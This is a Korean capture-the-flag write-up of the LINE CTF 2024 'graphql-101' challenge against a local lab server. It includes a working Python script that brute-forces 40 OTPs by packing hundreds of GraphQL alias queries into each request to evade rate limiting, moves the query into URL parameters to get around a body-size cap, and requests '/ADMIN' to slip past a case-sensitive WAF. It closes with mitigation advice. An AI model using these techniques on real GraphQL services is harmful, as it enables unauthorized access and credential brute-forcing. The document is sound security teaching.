

# graphql-101

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | graphql-101 |
| 원본 대회 | LINE CTF 2024 |
| 분야 | Web · GraphQL / Rate Limit |
| 난이도 | 중급 · 약 3/5 |
| 접속 주소 | `http://localhost:1362` |
| 플래그 형식 | `FLAG{...}` |



# 1. 문제 요약

GraphQL OTP 40개를 모두 맞히면 `/admin`에서 FLAG를 주는 문제.

- OTP는 각 인덱스마다 `000~998` 중 하나
- `/graphql`은 30분에 5회 요청 제한
- JSON body는 `128b` 제한
- WAF는 URL의 `admin` 문자열을 차단

핵심은 `GraphQL alias + query 파라미터 + variable + 대소문자 우회`를 조합하는 것.

---

# 2. 문제 분석

### GraphQL

- Graph QL(이하 gql)은 Structed Query Language(이하 sql)와 마찬가지로 쿼리 언어
- gql은 **웹 클라이언트**가 데이터를 서버로 부터 효율적으로 가져오는 것이 목적
- **인트로스펙션(introspection)이라는 스키마를 주고 받을 수 있음← 스키마 확인 가능 query{__typename}**
- 별칭(alias)은 API 호출 횟수를 줄이기 위한 용도로 사용되지만, GraphQL 엔드포인트를 무차별 대입하는 데에도 악용
- GraphQL은 CSRF 공격의 벡터로 사용될 수 있으며, 공격자는 피해자의 브라우저가 피해자 사용자인 것처럼 악의적인 쿼리를 전송하도록 만드는 익스플로잇을 생성가능


### 문제 구조

```python
express - / (index.html 반환)
				- /admin (flag반환함수)
				- /graphql (데이터 확인 5번 넘으면 리셋)
				
				
resolver
// The root provides a resolver function for each API endpoint
const root = {
  otp: ({ u, i, otp }, req) => {
    if (i >= NUM_CHALLENGE || i < 0) return ERROR_MSG; //challenge 안에 범위
    if (!checkOtp(u, req.ip, i, otp)) return ERROR_MSG; //otp check
    rateLimiter.resetKey(req.ip); //5번 넘으면 리셋
    otps[u][req.ip][i] = 1;
    return CORRECT_MSG;
  },
}
				
waf 
const { isDangerousPayload, isDangerousValue } = require('./waf');
app.use((req, res, next) => {
  if (isDangerousValue(req.url)) return res.send(ERROR_MSG);
  if (isDangerousPayload(req.query)) return res.send(ERROR_MSG);
  next();
});
```

---

# 3. 풀이과정

1. query를 URL 파라미터로 보내서 128B body 제한 우회

```
POST /graphql?query=긴GraphQL쿼리
body: {"variables":{"u":"admin"}}
```

1. alias를 써서 HTTP 요청 1번 안에 `otp()`를 여러 번 실행해서 rate limit 우회

```
a0: otp(...)
a1: otp(...)
a2: otp(...)
```

1. 마지막 flag 요청에서 `/admin` 대신 `/ADMIN`을 써서 WAF의 소문자 문자열 검사 우회

즉 문제 전체 체인은:

```
body size 제한 우회
→ alias로 rate limit 우회
→ 대소문자로 /admin WAF 우회
→ flag
```

추가로 `"admin"` 자체는 GraphQL variable로 body에 숨겨서 URL WAF도 피하고 있습니다.

```python
import requests

BASE = "http://127.0.0.1:1362"

s = requests.Session()

CHUNK = 250

def make_query(idx, start, end):
    fields = []

    for n in range(start, end):
        alias = f"a{n:x}"
        fields.append(
            f'{alias}:otp(u:$u,i:{idx},otp:"{n:03d}")'
        )

    return 'query($u:String!){' + ''.join(fields) + '}'

for idx in range(40):
    solved = False

    # 000~998을 최대 4개의 HTTP 요청으로 검사
    for start in range(0, 999, CHUNK):
        end = min(start + CHUNK, 999)

        query = make_query(idx, start, end)

        r = s.post(
            BASE + "/graphql",
            params={"query": query},
            json={
                "variables": {
                    "u": "admin"
                }
            }
        )

        print(f"[{idx}] {start:03d}~{end-1:03d} -> {r.status_code}")

        try:
            result = r.json()
        except Exception:
            print("응답:", r.text)
            raise SystemExit

        if "errors" in result:
            print(result)
            raise SystemExit

        data = result.get("data", {})

        for alias, value in data.items():
            if value == "OK !!!":
                print(f"[+] OTP {idx} solved")
                solved = True
                break

        if solved:
            break

    if not solved:
        print(f"[-] OTP {idx} failed")
        print(result)
        raise SystemExit

print("[+] requesting flag")
print(s.get(BASE + "/ADMIN").text)
print(
    "remaining =",
    r.headers.get("RateLimit-Remaining"),
    "limit =",
    r.headers.get("RateLimit-Limit")
)
```


40개 OTP 생성
↓
GraphQL alias로 한 HTTP 요청에서 많은 OTP 후보 검사
↓
한 OTP당 최대 4 HTTP 요청
↓
정답 찾으면 rate limit reset
↓
40개 모두 1로 변경
↓
/ADMIN 요청
↓
WAF 우회
↓
/admin handler 실행
↓
sum = 40
↓
FLAG

---

# 4. 보안조치

- Rate Limit을 HTTP 요청 수가 아니라 resolver 실행 횟수 기준으로 적용
- GraphQL query 길이/alias 개수 제한
- WAF와 실제 라우터의 대소문자 처리 기준 통일
- URL만 보지 말고 GraphQL body/variables까지 동일하게 검증

---

# 5. 기록

[https://tech.kakao.com/posts/364](https://tech.kakao.com/posts/364)

[https://portswigger.net/web-security/graphql](https://portswigger.net/web-security/graphql)